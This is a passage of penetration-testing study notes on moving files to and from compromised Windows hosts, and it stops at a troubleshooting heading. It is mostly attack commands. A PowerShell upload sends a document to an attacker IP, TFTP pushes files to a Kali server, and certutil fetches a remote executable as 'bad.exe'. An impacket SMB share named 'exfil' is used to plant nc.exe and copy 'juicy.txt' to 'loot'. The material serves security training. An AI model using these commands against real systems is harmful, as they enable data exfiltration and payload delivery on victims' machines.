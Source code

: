 ```cmd
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
### Uploading Files with TFTP
- While the Windows-based file transfer methods shown above work on all Windows versions since Windows 7 and Windows Server 2008 R2, we may run into problems when encountering older operating systems.  
- PowerShell, while very powerful and often-used, is not installed by default on operating systems like Windows XP and Windows Server 2003, which are still found in some production networks. 
- While both VBScript and the FTP client are present and will work, in this section we will discuss another file transfer method that may be effective in the field.

[TFTP](https://en.wikipedia.org/wiki/Trivial_File_Transfer_Protocol) is a UDP-based file transfer protocol and is often restricted by corporate egress firewall rules.

1. Install and configure a TFTP server in Kali and create a directory to store and serve files. Next, we update the ownership of the directory so we can write files to it:
    ```sh
    kali@kali:~$ sudo apt update && sudo apt install atftp
    kali@kali:~$ sudo mkdir /tftp
    kali@kali:~$ sudo chown nobody: /tftp
    kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
    ```
2. On the Windows system, we will run the tftp client with -i to specify a binary image transfer, the IP address of our Kali system, the put command to initiate an upload, and finally the filename of the file to upload.
    ```cmd
    C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
    Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
    ```
### Downloading Files with Certutil
```cmd
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```
Ref: https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil
### Download and Upload using SMB
Once we gain a foothold on a host which was know to use have SMB.

- On Kali, start an SMB server using impacket:
    ```sh
    # impacket-smbserver [-username USERNAME] [-password PASSWORD] shareName sharePATH
    kali@kali:~$ impacket-smbserver exfil .             # Generate a share named "exfil" in the current directory
    ```
- On the compromised Windows host:
    ```cmd
    C:\WINDOWS\Tasks> net use * \\<KALI_IP>\exfil
    Drive Z: is now connected to \\<KALI_IP>\exfil.
    ```
- Download files (eg nc.exe) to the compromised Windows host:
    ```cmd
    C:\WINDOWS\Tasks> copy Z:\nc.exe
    ```
- Upload files (eg nc.exe) from the compromised Windows host:
    ```cmd
    C:\WINDOWS\Tasks> copy C:\juicy.txt Z:\loot
    ```
#### Troubleshooting
If you have the following errors: